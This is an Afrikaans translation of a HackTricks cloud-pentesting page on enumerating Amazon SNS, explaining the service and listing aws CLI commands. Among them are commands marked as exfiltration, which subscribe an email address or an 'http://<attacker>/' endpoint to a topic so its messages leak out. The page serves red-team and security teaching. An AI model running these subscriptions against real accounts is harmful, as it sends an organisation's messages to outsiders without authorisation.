 # AWS - SNS Enum

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy in HackTricks wil adverteer** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>

## SNS

Amazon Simple Notification Service (Amazon SNS) word beskryf as 'n **volledig bestuurde boodskappendiens**. Dit ondersteun beide **toepassing-tot-toepassing** (A2A) en **toepassing-tot-persoon** (A2P) kommunikasietipes.

Belangrike kenmerke vir A2A-kommunikasie sluit in **publiseer/inteken (pub/sub) meganismes**. Hierdie meganismes stel **onderwerpe** voor, wat noodsaaklik is vir die moontlikheid van hoë deurset, **druk-gebaseerde, baie-tot-baie boodskappe**. Hierdie kenmerk is baie voordelig in scenario's wat verspreide stelsels, mikrodienssisteem en gebeurtenisgedrewe serverlose argitekture behels. Deur van hierdie onderwerpe gebruik te maak, kan publiseerstelsels boodskappe doeltreffend versprei na 'n **wye verskeidenheid intekenaarstelsels**, wat 'n waaier van boodskappe moontlik maak.

### **Verskil met SQS**

**SQS** is 'n **gebaseer-op-rye**-diens wat punt-tot-punt-kommunikasie moontlik maak, en verseker dat boodskappe deur 'n **enkele verbruiker** verwerk word. Dit bied **ten minste een keer aflewering**, ondersteun standaard en FIFO-rye, en maak boodskapretensie vir herhalings en vertraagde verwerking moontlik.\
Aan die ander kant is **SNS** 'n **gebaseer-op-publiseer/inteken-diens**, wat **een-tot-baie** kommunikasie moontlik maak deur boodskappe gelyktydig na **verskeie intekenaars** uit te saai. Dit ondersteun **verskeie intekenings-eindpunte soos e-pos, SMS, Lambda-funksies en HTTP/HTTPS**, en bied filtreringsmeganismes vir geteikende boodskapaflewering.\
Alhoewel beide dienste ontkoppeling tussen komponente in verspreide stelsels moontlik maak, fokus SQS op geordende kommunikasie, terwyl SNS klem lê op gebeurtenisgedrewe, waaier-uit kommunikasiepatrone.

### **Enumerasie**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Let daarop dat as die **onderwerp van die tipe FIFO** is, kan slegs intekenaars wat die protokol **SQS** gebruik, gebruik word (HTTP of HTTPS kan nie gebruik word nie).

Selfs as die `--topic-arn` die streek bevat, moet jy seker maak dat jy die korrekte streek in **`--region`** spesifiseer, anders sal jy 'n fout kry wat lyk asof jy nie toegang het nie, maar die probleem is die streek.
{% endhint %}

### Ongeagte Toegang

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

### Voorregverhoging

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

### Post Exploitation

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

### Volharding

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

# Verwysings
* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
